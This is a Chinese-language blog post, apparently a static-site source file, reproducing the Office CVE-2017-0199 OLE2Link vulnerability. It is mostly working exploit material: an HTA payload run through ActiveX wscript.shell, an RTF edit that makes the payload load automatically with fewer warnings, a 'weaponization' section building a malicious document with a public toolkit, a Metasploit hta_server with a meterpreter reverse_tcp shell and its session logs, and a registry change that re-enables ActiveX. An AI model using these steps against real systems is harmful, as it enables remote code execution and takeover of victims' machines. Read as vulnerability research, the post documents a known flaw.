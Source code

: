 ```yaml
---
title: "Office CVE-2017-0199 复现"
date: 2019-07-31T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



漏洞原理移步 [绿盟](http://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/).

环境 Ubuntu 16.04 for WSL, Windows 7, Office 2010.

<!--more-->

## 复现过程

搭建 Apache 服务器.

```
sudo apt install apache2 php
```

编辑 `/etc/apache2/apache2.conf`, 添加以下内容.

```
<Directory /var/www/html/>
    AllowOverride All
</Directory>
```

重启 Apache.

```
sudo service apache2 restart
```

在网站目录下创建 .htaccess 文件, 内容如下.

```
AddType application/rtf .rtf
```

同目录下创建 test.rtf 作为 Payload.

```
test
<script>
var ws = new ActiveXObject("wscript.shell");
ws.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

创建任意文档(注意要在未打补丁的环境下创建), 添加对象.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731180814.png)

另存为 rtf 格式.

更改 .htaccess 为如下内容.

```
AddType application/hta .rtf
```

清除 IE 缓存, 重新打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181725.png)

点击 "是".

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181454.png)

复现成功.

但这里就有三个问题: 1. calc 被执行两次 2. 两个警告对话框 3. 文档是 rtf 格式.

第一个问题在我这无法解决, 那么如何让用户去点击按钮, 而且是在日常中不是很常见的 rtf 文档里呢?

## 改进载荷

关于第一个问题, Payload 执行两次一般来说并没有什么太大的影响 (至少对我来说).

下面解决第二个问题.

用编辑器打开 rtf 文档, 找到以下字符串.

```
\object\objautlink\rsltpict
```

修改为.

```
\object\objautlink\objupdate\rsltpict
```

这里我们添加了 objupdate 参数, 它将使文档被打开时自动更新文档中对象的内容, 也就是自动去请求 Payload.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182436.png)

再次打开后就会自动执行 calc 命令, 而且你会发现第二个警告框也没有了 :)

对于第三个问题, 添加的 objupdate 参数是 rtf 的特性, docx 不能兼容, 但是当文件名以 .doc 结尾的时候却能够成功打开.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182744.png)

问题解决.

## 武器化

[bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

生成恶意文档.

```
cve-2017-0199-toolkit.py -M gen -t rtf -w sales.rtf -u http://192.168.1.1/test.hta
```

这里对 Payload 的后缀没有限制, 只要返回头中存在 `Content-Type: application/hta` 即可.

例如 PHP.

```
<?php @header("Content-Type: application/hta");?>
test
<script>
var a = new ActiveXObject("wscript.shell");
a.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

此外 toolkit 中还有启动服务器的选项, 不过我更喜欢自己构造 Payload :)

使用 Metasploit 作为 hta 服务器 (Cobalt Strike Empire 同理).

```
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
run -j
```

下面只需要打开文档.

```
[*] 192.168.1.102    hta_server - Delivering Payload
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.102:49183) at 2019-07-31 17:35:53 +0800
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 2 opened (192.168.1.1:4444 -> 192.168.1.102:49184) at 2019-07-31 17:35:54 +0800
```

成功.

## 利用失败

如果你利用失败了, 很大可能是系统默认禁用了通过 hta 方式执行 ActiveX, 这也是这个漏洞为什么那么鸡肋的原因.

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}]
"Compatibility Flags"=dword:00000000
```

另存为 allow.reg, 然后双击合并.